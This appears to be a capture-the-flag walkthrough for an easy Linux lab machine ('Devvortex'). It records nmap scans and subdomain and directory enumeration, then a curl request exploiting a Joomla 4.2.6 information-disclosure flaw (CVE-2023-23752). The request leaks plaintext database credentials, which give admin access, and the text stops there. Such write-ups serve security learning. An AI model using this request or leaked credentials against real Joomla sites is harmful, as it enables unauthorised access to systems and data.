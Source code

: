 # **Machine Info**

| OS        | Linux    |
| --------- | -------- |
| **Level** | **Easy** |


# **Walkthrough**
**Enumeration**
1. Scanning the open ports first revels two ports 22 and 80 running ssh and http.
```
	$sudo nmap -p- --min-rate 10000 -oA portScan 10.10.11.242
	Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-13 18:14 +0545
	Nmap scan report for 10.10.11.242 (10.10.11.242)
	Host is up (0.33s latency).
	Not shown: 65533 closed tcp ports (reset)
	PORT   STATE SERVICE
	22/tcp open  ssh
	80/tcp open  http
```

2. Further scanning the open port for the service version along with default set script.
```
	$sudo nmap -sC -sV -p22,80 --min-rate 10000 -oA serviceScan 10.10.11.242
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-13 18:15 +0545
Nmap scan report for 10.10.11.242 (10.10.11.242)
Host is up (0.33s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://devvortex.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.81 seconds

```

3. Adding the domain name in our `/etc/hosts` file.
	- ![](Assets/Pasted%20image%2020250313183443.png)

4. This is the website running in the 80 port.
	![](Assets/Pasted%20image%2020250320033427.png)

5. During subdomain enumeration, I discovered `dev.devvortex.htb`.
	![](Assets/Pasted%20image%2020250320033021.png)
	- I then updated the `/etc/hosts` file to include this new subdomain. Upon visiting `dev.devvortex.htb`, I noticed that the website appeared different from the main domain.

6. After the directory enumeration on the new sub-domain, i found a few of status 200 which indicate success and lots of status 403 which mean access to the following resources were forbidden.
	- ![](Assets/Pasted%20image%2020250320040449.png)
	- Here are all the directory name of status code 200 with size. Among it, i found `/robots.txt` interesting as it might contain other hidden directories. Robot.txt is the page containing instruction for bot, like web crawler, which web page to access and not to access.
		```
		/index.php            (Status: 200) [Size: 23221]
		/LICENSE.txt          (Status: 200) [Size: 18092]
		/robots.txt           (Status: 200) [Size: 764]
		/.                    (Status: 200) [Size: 23221]
		/configuration.php    (Status: 200) [Size: 0]
		/README.txt           (Status: 200) [Size: 4942]
		/htaccess.txt         (Status: 200) [Size: 6858]
		```

7. I then visited the `robot.txt` directory and know that it is running Zoomla CMS (Content Management System). Then i ran zoomscan, a zoomla vulnerability scanner, on the site, which detected the version name `4.2.6`. A google search reveal that, the version is vulnerable to improper access check leading to unauthorised access (CVE-2023-23752). 
	```
	
	[+] FireWall Detector
	[++] Firewall not detected
	
	[+] Detecting Joomla Version
	[++] Joomla 4.2.6
	
	[+] Core Joomla Vulnerability
	[++] Target Joomla core is not vulnerable
	
	[+] Checking apache info/status files
	[++] Readable info/status files are not found
	
	[+] admin finder
	[++] Admin page : http://dev.devvortex.htb/administrator/
	
	[+] Checking robots.txt existing
	[++] robots.txt is found
	path : http://dev.devvortex.htb/robots.txt 
	
	Interesting path found from robots.txt
	http://dev.devvortex.htb/joomla/administrator/
	http://dev.devvortex.htb/administrator/
	http://dev.devvortex.htb/api/
	http://dev.devvortex.htb/bin/
	http://dev.devvortex.htb/cache/
	http://dev.devvortex.htb/cli/
	http://dev.devvortex.htb/components/
	http://dev.devvortex.htb/includes/
	http://dev.devvortex.htb/installation/
	http://dev.devvortex.htb/language/
	http://dev.devvortex.htb/layouts/
	http://dev.devvortex.htb/libraries/
	http://dev.devvortex.htb/logs/
	http://dev.devvortex.htb/modules/
	http://dev.devvortex.htb/plugins/
	http://dev.devvortex.htb/tmp/
	
	
	[+] Finding common backup files name
	[++] Backup files are not found
	
	[+] Finding common log files name
	[++] error log is not found
	
	[+] Checking sensitive config.php.x file
	[++] Readable config files are not found
	```

8. Exploiting the vulnerability, I got the user credential.
```
	curl  http://dev.devvortex.htb/api/index.php/v1/config/application?public=true
```
`{"type":"application","id":"224","attributes":{"user":"lewis","id":224}},{"type":"application","id":"224","attributes":{"password":"P4ntherg0t1n5r3c0n##","id":224}},{"type":"application","id":"224","attributes":{"db":"joomla","id":224}},{"type":"application","id":"224","attributes":{"dbprefix":"sd4fg_","id":224}},`

- Then i logged in to `/administrator/index.php` with the credential and got access to the administrator dashboard.
- ![](Assets/Pasted%20image%2020250320053843.png)
- ![](Assets/Pasted%20image%2020250320053911.png)










